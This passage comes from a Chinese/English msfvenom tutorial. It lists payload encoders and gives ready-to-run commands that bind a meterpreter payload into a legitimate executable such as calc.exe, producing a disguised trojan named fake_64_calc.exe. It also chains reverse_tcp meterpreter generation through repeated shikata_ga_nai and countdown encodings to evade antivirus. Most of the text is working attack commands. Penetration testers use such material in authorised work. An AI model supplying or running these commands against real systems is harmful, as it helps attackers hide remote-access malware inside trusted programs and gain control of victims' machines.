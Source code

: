 ```
    x86/context_stat              manual     stat(2)-based Context Keyed Payload Encoder
    x86/context_time              manual     time(2)-based Context Keyed Payload Encoder
    x86/countdown                 normal     Single-byte XOR Countdown Encoder
    x86/fnstenv_mov               normal     Variable-length Fnstenv/mov Dword XOR Encoder
    x86/jmp_call_additive         normal     Jump/Call XOR Additive Feedback Encoder
    x86/nonalpha                  low        Non-Alpha Encoder
    x86/nonupper                  low        Non-Upper Encoder
    x86/opt_sub                   manual     Sub Encoder (optimised)
    x86/service                   manual     Register Service
    x86/shikata_ga_nai            excellent  Polymorphic XOR Additive Feedback Encoder
    x86/single_static_bit         manual     Single Static Bit
    x86/unicode_mixed             manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
    x86/unicode_upper             manual     Alpha2 Alphanumeric Unicode Uppercase Encoder
```


### -x 指定一个模板文件（将payload附加"捆绑"到某个正常的模版文件）

捆绑payload到 模板文件（即 宿主文件， 即 自定义的可执行文件）

如 使用windows下的calc.exe作为模板文件,生成payload：
```
msfvenom -p windows/meterpreter/bind_tcp -x calc.exe -f exe > new.exe
```

msfvenom使用的模板文件保存在目录`msf/data/templates`



注意，在win x64下使用自定义的x64的模板文件（如exe等）创建x64的payload时，输出格式必须要写`-f exe-only`而不能写`-f exe`
（Please note: If you'd like to create a x64 payload with a custom x64 custom template for Windows, then instead of the exe format, you should use exe-only:）

```
msfvenom -p windows/x64/meterpreter/bind_tcp -x /tmp/templates/64_calc.exe -f exe-only > /tmp/fake_64_calc.exe
```

-x选项经常和-k选项一起用，它允许您从模板中将payload作为新的线程运行。但是它目前只支持较老的系统，如x86 Windows XP.
（The -x flag is often paired with the -k flag, which allows you to run your payload as a new thread from the template. However, this currently is only reliable for older Windows machines such as x86 Windows XP.）

### How to chain msfvenom output

The old msfpayload and msfencode utilities were often chained together in order layer on multiple encodings. This is possible using msfvenom as well:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.3 LPORT=4444 -f raw -e x86/shikata_ga_nai -i 5 | \
msfvenom -a x86 --platform windows -e x86/countdown -i 8  -f raw | \
msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 9 -f exe -o payload.exe
```


### 编译生成的C文件

